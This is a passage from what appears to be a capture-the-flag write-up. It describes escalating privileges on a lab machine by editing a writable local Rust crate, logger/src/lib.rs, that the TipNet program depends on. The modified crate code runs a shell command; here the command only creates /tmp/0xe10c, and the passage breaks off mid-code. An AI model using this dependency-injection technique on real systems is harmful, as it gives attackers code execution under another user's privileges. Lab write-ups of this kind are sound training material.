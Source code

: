 >[!info]
> More information is available in the [Rust documentation](https://doc.rust-lang.org/cargo/index.html).

The TipNet `Cargo.toml` file specifies a dependency on a `logger` package located on the target machine at `/opt/crates/logger`.

Contents of `/opt/tipnet/Cargo.toml` file:
```
[package]
name = "tipnet"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
chrono = "0.4"
mysql = "23.0.1"
nix = "0.18.0"
logger = {path = "../crates/logger"}
sha2 = "0.9.0"
hex = "0.4.3"
```

We have already seen that the file `/opt/crates/logger/src/lib.rs` is writable by the `silentobserver` user.  Let's test to see if we get command execution with this file.

## Exploiting TipNet for Privilege Escalation

We modified the `lib.rs` file to create the file `/tmp/0xe10c`.
```rust
extern crate chrono;

use std::fs::OpenOptions;
use std::io::Write;
use chrono::prelude::*;
use std::process::Command;

pub fn log(user: &str, query: &str, justification: &str) {
    let now = Local::now();
    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);

    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
        Ok(file) => file,
        Err(e) => {
            println!("Error opening log file: {}", e);
            return;
        }
    };

    if let Err(e) = file.write_all(log_message.as_bytes()) {
        println!("Error writing to log file: {}", e);
    }

// CODE EXECUTION PAYLOD HERE
    let command = Command::new("touch") // command
        .arg("/tmp/0xe10c") //args - just repeat this line as needed
        .output()
        .expect("bash command failed");

    if command.status.success() {
```